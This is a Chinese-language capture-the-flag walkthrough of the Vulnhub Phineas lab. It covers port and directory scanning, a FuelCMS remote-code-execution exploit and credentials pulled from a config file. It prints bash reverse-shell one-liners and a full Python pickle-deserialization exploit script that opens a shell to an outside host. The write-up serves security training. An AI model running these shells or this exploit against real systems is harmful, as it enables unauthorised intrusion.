# Vulnhub-Phineas

<div style="text-align: right;">

date: "2023-06-11"

</div>

## 靶场说明

官方地址：https://www.vulnhub.com/entry/phineas-1,674/
由于镜像和我的VM虚拟机有点冲突，改不了桥接的网卡，就直接NAT新增一张网卡吧

## 外网打点

#### 外网打点-初步探测

存活IP：192.168.36.154

```
# nmap -p- -A 192.168.36.154
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-10 14:06 中国标准时间
NSOCK ERROR [0.2030s] ssl_init_helper(): OpenSSL legacy provider failed to load.

Nmap scan report for 192.168.36.154
Host is up (0.00046s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 acd80aa86a1f786dac068f653eff9c8b (RSA)
|   256 e7f8b0071c5b4a4810bcf63642626ce0 (ECDSA)
|_  256 c8f0eab8bf6ba5121f9a91629d1ace75 (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-title: Apache HTTP Server Test Page powered by CentOS
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
3306/tcp open  mysql   MariaDB (unauthorized)
MAC Address: 00:0C:29:F0:C7:15 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.46 ms 192.168.36.154

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.02 seconds
```

#### 外网打点-目录扫描

这里使用dirsearch没有扫描出来，御剑也扫不着。


#### 外网打点-使用Gobuster

directory-list-2.3-medium.txt文件下载地址：[https://github.com/daviddias/node-dirbuster/tree/master/lists](https://github.com/daviddias/node-dirbuster/tree/master/lists)

```
gobuster.exe dir -u http://192.168.36.154 -w C:\Users\ME\Desktop\常用漏洞检测工具\信息收集\目录扫描\gobuster\gobuster_3.5.0_Windows_i386\list\directory-list-2.3-medium.txt -x php,txt,html,js,php.bak,txt.bak,html.bak,json,git,git.bak,zip,zip.bak --exclude-length 0
```



对structure目录做上下文检索

```
gobuster.exe dir -u http://192.168.36.154/structure -w C:\Users\ME\Desktop\常用漏洞检测工具\信息收集\目录扫描\gobuster\gobuster_3.5.0_Windows_i386\list\directory-list-2.3-medium.txt -x php,txt,html,js,php.bak,txt.bak,html.bak,json,git,git.bak,zip,zip.bak --exclude-length 2899
```


访问robots.txt，提示还有fuel目录，直接再跑一次fuel目录

```
gobuster.exe dir -u http://192.168.36.154/structure/fuel/ -w C:\Users\ME\Desktop\常用漏洞检测工具\信息收集\目录扫描\gobuster\gobuster_3.5.0_Windows_i386\list\directory-list-2.3-medium.txt -x php,txt,html,js,php.bak,txt.bak,html.bak,json,git,git.bak,zip,zip.bak --exclude-length 2899
```



发现存在install，访问[http://192.168.36.154/structure/fuel/install/archive/](http://192.168.36.154/structure/fuel/install/archive/)



随便下载一个sql文件打开翻一下



不知道干吗用的，账号密码全是admin。这里实在没找到，看了wp，它找路径的方法是在所有路劲后面拼接fuel。这脑洞有点大，不过确实也是，那几个扫描出来的页面访问全是空白页面。为什么拼接fuel是因为这里是fuel的cms。通过路劲判断的。

找到后台登录页面

```
http://192.168.36.154/structure/index.php/fuel/login/5a6e566c62413d3d
```

#### 外网打点-fuel rce

searchsploit检索漏洞，`searchsploit fuel`进行检索，详细使用方法在[关于searchsploit的作用](https://www.yuque.com/chanyue-s3eqx/hkhuth/meiheuauh48vn6ol)，有详细介绍。



修改47138代码的源码，将代理去掉，将url改为我们目标的url，当然前提是搜索到47138.py的位置，将其拷贝一份到桌面，然后更改桌面的源代码。

```
locate 47138.py

cp /usr/share/exploitdb/exploits/linux/webapps/47138.py /home/kali/Desktop
```



更改源代码。我这里是改好了，将修改了的地方标出来了



使用python2运行



#### 外网打点-fuel rce-github版本

还有这个也是远程Rce的，没测试：[Ruel-1.4.1-RCE](https://github.com/ice-wzl/Fuel-1.4.1-RCE-Updated)

#### 外网打点-反弹shell

```
bash -i >& /dev/tcp/192.168.36.131/4444 0>&1
```



在目录`/var/www/html/structure/fuel/application/config`下找到了一个database.php的文件。



账号：anna，密码：H993hfkNNid5kk

连接，有白名单或者只有本地可以连接。



尝试使用该账号密码登录后台页面，失败。根据前面的扫描结果，只有22端口还可以输入账号密码。

## 内部渗透

#### 内部渗透-ssh连接

```
ssh anna@192.168.36.154
```



#### 内部渗透-提权

这里尝试了suid提权，和Capabilities提权，以及内核漏洞提权，均未成功

#### 内部渗透-查看文件



web目录为root用户目录，进入查看



app.py为anna用户可读，查看app.py的内容



这个代码的意思是一个python搭建的是一个轻量级web框架，有一个heaven目录，访问的方式需为POST方式提交，在heaven()函数中，它首先从请求的表单数据中获取名为awesome的值。然后使用base64.urlsafe_b64decode()函数将该值进行base64解码得到原始数据。接下来，使用pickle.loads()函数将解码后的数据进行反序列化。
但是pickle可以造成RCE漏洞。
通过netstat -ano 发现5000端口正在运行，估计是python搭建的框架的端口

#### 内部渗透-python反序列化利
文件地址：[https://github.com/CalfCrusher/Python-Pickle-RCE-Exploit/blob/main/Pickle-PoC.py](https://github.com/CalfCrusher/Python-Pickle-RCE-Exploit/blob/main/Pickle-PoC.py)
修改其中的default_url、command、pickled，然后在kali开启监听，运行python代码，反弹成功。

```
#!/usr/bin/python
#
# Pickle deserialization RCE exploit
# calfcrusher@inventati.org
#
# Usage: ./Pickle-PoC.py [URL]

import pickle
import base64
import requests
import sys

class PickleRCE(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

default_url = 'http://127.0.0.1:5000/vulnerable'
url = sys.argv[1] if len(sys.argv) > 1 else default_url
command = '/bin/bash -i >& /dev/tcp/192.168.1.23/4444 0>&1'  # Reverse Shell Payload Change IP/PORT

pickled = 'awesome'  # This is the POST parameter of our vulnerable Flask app
payload = base64.b64encode(pickle.dumps(PickleRCE()))  # Crafting Payload
requests.post(url, data={pickled: payload})  # Sending POST request

```




## 获取root.txt

在root目录下的root.txt文件


